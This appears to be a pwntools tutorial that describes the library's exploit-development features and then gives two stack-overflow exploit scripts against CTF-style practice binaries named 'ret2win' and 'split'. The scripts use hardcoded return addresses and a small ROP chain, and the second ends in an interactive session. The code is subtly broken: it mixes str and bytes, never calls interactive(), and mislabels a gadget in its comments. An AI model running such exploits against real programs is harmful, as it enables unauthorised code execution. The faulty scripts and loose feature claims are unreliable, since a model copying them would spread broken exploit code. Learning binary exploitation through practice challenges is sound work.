 Pwntools is a Python library that provides a set of utilities for developing exploits for binary programs. It simplifies the task of writing exploits by providing a set of powerful tools for working with low-level programming constructs, such as sockets, processes, and files.

Here are some basic things to know about pwntools:

- Pwntools provides a set of powerful tools for working with binary programs, including remote and local exploitation.
- It provides a simplified interface for interacting with low-level programming constructs, such as sockets and processes.
- It includes support for common exploit techniques, such as heap and stack spraying, shellcode injection, and return-oriented programming (ROP).
- It has a built-in ELF parser, which allows for easy inspection of binary files.
- Pwntools can be used with both Python 2 and Python 3.
- It provides a number of useful utilities, such as hexdump and cyclic, for working with binary data.
- Pwntools can be installed using pip or downloaded from the GitHub repository.

Here are some example use cases for pwntools:

- Writing a simple buffer overflow exploit for a binary program.
- Developing a remote exploit to exploit a network service running on a target machine.
- Building a payload to inject shellcode into a vulnerable program.
- Using ROP to bypass address space layout randomization (ASLR) and execute arbitrary code.

{Example code 1}

~~~
from pwn import *

# Connect to the target binary
p = process('./ret2win')

# Find the offset to overwrite the return address
offset = cyclic_find('faaagaaa')

# Craft the payload to overwrite the return address with the address of the ret2win function
payload = b'A' * offset
payload += p64(0x00400811)

# Send the payload to the binary
p.sendline(payload)

# Receive the output from the binary
output = p.recvall().decode('utf-8')

# Print the output
print(output)

~~~

{Example code 2}
~~~
from pwn import *

# create a process object and load the executable binary
p = process('./split')



# determine the offset to the return address on the stack
offset = 40

# retrieve the addresses of the desired functions/strings using the ELF object
ret_address = 0x00000000004007c3


# construct the payload by padding the offset with arbitrary characters
# then appending the address of the return instruction and the address of the system call with the argument of the flag file
payload = 'A' * offset + p64(ret_address) + p64(0x00601060) + p64(0x0040074b)

# send the payload to the process and get the result and priviledge
p.sendline(payload)
p.interactive


~~~
